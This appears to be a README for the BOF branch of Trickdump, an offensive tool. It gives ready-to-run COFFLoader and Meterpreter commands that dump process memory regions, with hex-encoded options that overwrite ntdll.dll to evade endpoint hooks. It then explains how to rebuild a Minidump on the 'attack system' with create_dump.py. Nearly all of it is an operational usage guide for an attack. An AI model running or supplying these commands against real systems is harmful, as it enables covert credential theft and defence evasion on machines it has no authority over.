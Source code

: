 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's execute_bof:

```
COFFLoader64.exe go lock_bof.o <OVERWRITE_TECHNIQUE>
```

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)


```
COFFLoader64.exe go shock_bof.o <OVERWRITE_TECHNIQUE>
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
COFFLoader64.exe go barrel_bof.o <OVERWRITE_TECHNIQUE>
```

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

You can use use an argument for overwriting ntdll.dll:

- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".

  - Translated to the value "0e0000000a0000006400690073006b000000" for COFFLoader.

- "knowndlls": Using the KnownDlls folder.

  - Translated to the value "18000000140000006b006e006f0077006e0064006c006c0073000000" for COFFLoader.

- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

  - Translated to the value "180000001400000064006500620075006700700072006f0063000000" for COFFLoader.

Examples running each one with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 0e0000000a0000006400690073006b000000
```

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)

```
COFFLoader64.exe go shock_bof.o 18000000140000006b006e006f0077006e0064006c006c0073000000
```

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go barrel_bof.o 180000001400000064006500620075006700700072006f0063000000
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)


I could not create a ZIP file using BOF files so the memory region dumps are created in a directory with a random name.

Use the updated *create_dump.py* script to generate the Minidump file in your attack system using the *-d* parameter for the directory path:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-d BARREL_DIRECTORY] [-o OUTPUT_FILE]
```

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)


-------------------------

## All in one

If you prefer to execute only one file, the Trick BOF generates the 3 JSON files and the directory with the memory regions:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

It creates all the files at the same time:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF5.png)

Optionally you can use the first argument to overwrite ntdll.dll in this case too:

```
COFFLoader64.exe go trick_bof.o 0e0000000a0000006400690073006b000000
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

Then you can create the Minidump file using *create_dump.py*:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

--------------------------------------

## Using Meterpreter

You can run BOFs in your Meterpreter sessions after loading the [execute_bof](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html) module, using "--format-string Z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o <OVERWRITE_TECHNIQUE>
```

![img11](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF11.png)

Then create the Minidump file:

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)

The same happens with the Trick BOF:

```
execute_bof trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img13](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF13.png)

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)
